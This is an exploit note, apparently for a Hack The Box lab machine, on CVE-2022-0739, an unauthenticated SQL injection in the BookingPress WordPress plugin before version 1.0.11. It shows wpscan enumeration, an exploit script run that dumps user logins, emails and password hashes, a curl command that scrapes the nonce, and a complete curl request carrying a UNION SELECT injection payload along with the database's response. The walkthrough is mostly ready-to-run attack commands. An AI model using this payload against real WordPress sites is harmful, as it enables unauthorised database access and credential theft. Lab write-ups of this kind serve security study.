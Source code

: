 # CVE-2022-0739 - WordPress Plugin - BookingPress < 1.0.11 - Unauthenticated SQL Injection

## Enumerate

```bash
$ wpscan --url $url --enumerate vp --plugins-detection aggressive --api-token ...SNIP...
...
...
 | [!] Title: BookingPress < 1.0.11 - Unauthenticated SQL Injection
 |     Fixed in: 1.0.11
 |     References:
 |      - https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0739
 |      - https://plugins.trac.wordpress.org/changeset/2684789
...
...
```

## Exploitation

```bash
$ bash CVE-2022-0739.sh --url http://metapress.htb --event-dir events  
CVE-2022-0739 - BookingPress < 1.0.11

Options :
    url : http://metapress.htb
    dir : events

[-] Nonce : 000a0fbd42

[-] 2 users found

*---------------------*---------------------------*----------------------------------------*
| user_login          | user_email                | user_pass                              |
*---------------------*---------------------------*----------------------------------------*
| admin               | admin@metapress.htb       | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.     |
| manager             | manager@metapress.htb     | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70     |
*---------------------*---------------------------*----------------------------------------*
```

## Extra

```bash
$ curl -s http://metapress.htb/events/ | grep "_wpnonce:" | awk -F "e:'" '{print $2}' | awk -F "'" '{print $1}' | 
sort -u
000a0fbd42
```

```bash
$ curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=000a0fbd42&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

## Links

- [GitHub - lhamouche - CVE-2022-0739 - PoC](https://github.com/lhamouche/Bash-exploit-for-CVE-2022-0739/)
- [wpscan vuln details](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
- [Mitre CVE-2022-0739](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0739)
- [Wordpress vuln details](https://plugins.trac.wordpress.org/changeset/2684789)
- [metasploit - bookingpress sqli](https://github.com/rapid7/metasploit-framework/blob/d48319a867a75cae501cc6797114b511ba0293a4/modules/auxiliary/gather/wp_bookingpress_category_services_sqli.rb)
- [HTB Machine - MetaTwo](https://app.hackthebox.com/machines/504)
